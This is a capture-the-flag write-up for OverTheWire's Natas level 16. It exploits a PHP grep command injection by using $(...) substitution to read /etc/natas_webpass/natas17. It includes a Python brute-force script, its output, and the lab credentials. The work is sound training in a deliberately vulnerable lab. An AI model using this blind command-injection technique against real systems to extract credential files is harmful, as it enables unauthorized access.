 # Level 16
## What does the page look like?
```html
$ curl -s --user natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh http://natas16.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Source code
```html
$ curl -s --user natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh http://natas16.natas.labs.overthewire.org/index-source.html | html2text 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/
css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-
ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/
wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></
script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</
script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing:
 <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

This level is simimalr to [level 10](https://github.com/sebastiendamaye/overthewire/tree/master/Natas/level10) with a subtle difference though:

| level 10 | level 16 |
|---|---|
| `passthru("grep -i $key dictionary.txt");` | `passthru("grep -i \"$key\" dictionary.txt");`

This time, the user input is surrounded by double quotes.

## Concatenate files
Let's see if we can concatenate the file `/etc/natas_webpass/natas17` to our search as we did in [level 10](https://github.com/sebastiendamaye/overthewire/tree/master/Natas/level10):
~~~~
$ curl -s -d "flag /etc/natas_webpass/natas17&submit=Search" --user natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh http://natas16.natas.labs.overthewire.org | html2text 

****** natas16 ******
For security reasons, we now filter even more on certain characters

Find words containing: [needle              ][Search]

Output:
View_sourcecode
~~~~

No, it doesn't work this time, we'll need something else.

## Brute force
I noticed that sending `$(grep a /etc/natas_webpass/natas17)` is showing the entire entries of the dictionary.

Playing a bit locally on my machine, I noticed I could do as follows to brute force the password.
~~~~
$ grep -i "wrongly$(grep ^thisisthefla flag.txt)" dictionary.txt
$ grep -i "wrongly$(grep ^thisistheflz flag.txt)" dictionary.txt
wrongly
~~~~

The 1st command returns nothing because the beginning of the guessed password is correct. On the other hand, the 2nd command returns `wrongly` (this is one of the unique words I chose from the dictionary) and indicates that the beginning of the guessed password is incorrect.

Let's write a python script to brute force our password
```python
#!/usr/bin/env python
import requests

auth_user = 'natas16'
auth_pwd = 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'
target = "http://natas16.natas.labs.overthewire.org"

password = ''

# we know the password is 32 chars long
for pos in range(33):
	for i in range(48,123):
		# only test a-z, A-Z and 0-9
		if (i>47 and i<58) or (i>64 and i<91) or (i>96):
			payload = {
				'needle': 'wrongly$(grep ^%s%s /etc/natas_webpass/natas17)' % (password, chr(i)),
				'submit': 'Search'
				}
			r = requests.get(
				target,
				auth=requests.auth.HTTPBasicAuth(auth_user, auth_pwd),
				params=payload
				)
			if "wrongly" not in r.text:
				password += chr(i)
				print(password)
				break
```
Here is the output:
~~~~
$ python bruteforce.py 
8
8P
8Ps
8Ps3
8Ps3H
8Ps3H0
8Ps3H0G
8Ps3H0GW
8Ps3H0GWb
8Ps3H0GWbn
8Ps3H0GWbn5
8Ps3H0GWbn5r
8Ps3H0GWbn5rd
8Ps3H0GWbn5rd9
8Ps3H0GWbn5rd9S
8Ps3H0GWbn5rd9S7
8Ps3H0GWbn5rd9S7G
8Ps3H0GWbn5rd9S7Gm
8Ps3H0GWbn5rd9S7GmA
8Ps3H0GWbn5rd9S7GmAd
8Ps3H0GWbn5rd9S7GmAdg
8Ps3H0GWbn5rd9S7GmAdgQ
8Ps3H0GWbn5rd9S7GmAdgQN
8Ps3H0GWbn5rd9S7GmAdgQNd
8Ps3H0GWbn5rd9S7GmAdgQNdk
8Ps3H0GWbn5rd9S7GmAdgQNdkh
8Ps3H0GWbn5rd9S7GmAdgQNdkhP
8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
~~~~

# Flag
~~~~
natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
~~~~

